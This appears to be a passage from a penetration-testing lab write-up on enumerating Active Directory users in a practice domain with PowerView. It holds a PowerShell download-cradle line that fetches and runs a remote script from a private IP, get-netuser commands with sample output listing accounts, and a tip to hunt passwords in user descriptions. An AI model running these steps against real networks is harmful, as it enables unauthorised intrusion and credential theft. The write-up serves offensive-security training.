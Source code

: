 ## 2. Enumerating Users

- Let's load PpowerView.ps1 file into the memory and run some commands.
    - Command:`net-user`
      ```powershell
      PS C:\Users\s.chisholm.mayorsec\Desktop> iex (New-Object Net.WebClient).DownloadString('http://192.168.107.186/powerview.ps1')
      PS C:\Users\s.chisholm.mayorsec\Desktop> get-netuser

      logoncount             : 17
      badpasswordtime        : 7/14/2023 3:25:42 AM
      description            : Built-in account for administering the computer/domain
      distinguishedname      : CN=Administrator,CN=Users,DC=mayorsec,DC=local
      objectclass            : {top, person, organizationalPerson, user}
      lastlogontimestamp     : 7/25/2023 10:05:49 PM
      name                   : Administrator
      objectsid              : S-1-5-21-743690612-71349104-3832511162-500
      samaccountname         : Administrator

      -----------------------SNIP-------------------------------
      ```
- With the command `get-netuser | select cn` we will get available user names in return.

```powershell
PS C:\Users\s.chisholm.mayorsec\Desktop> get-netuser | select cn

cn
--
Administrator
Guest
krbtgt
Aaron Adams
Jonathon Taylor
Jillian Anthony
Tabitha Carter

---------------SNIP---------------
```

- By using the command `get-netuser | select -ExpandProperty samaccountname` we will get the usernames of users available in the sam file.

```powershell
PS C:\Users\s.chisholm.mayorsec\Desktop> get-netuser | select -ExpandProperty samaccountname
Administrator
Guest
krbtgt
a.adams
j.taylor
j.anthony
t.carter
```

- We can customize our command and search for the text in the description as many users store their passwords in the description.
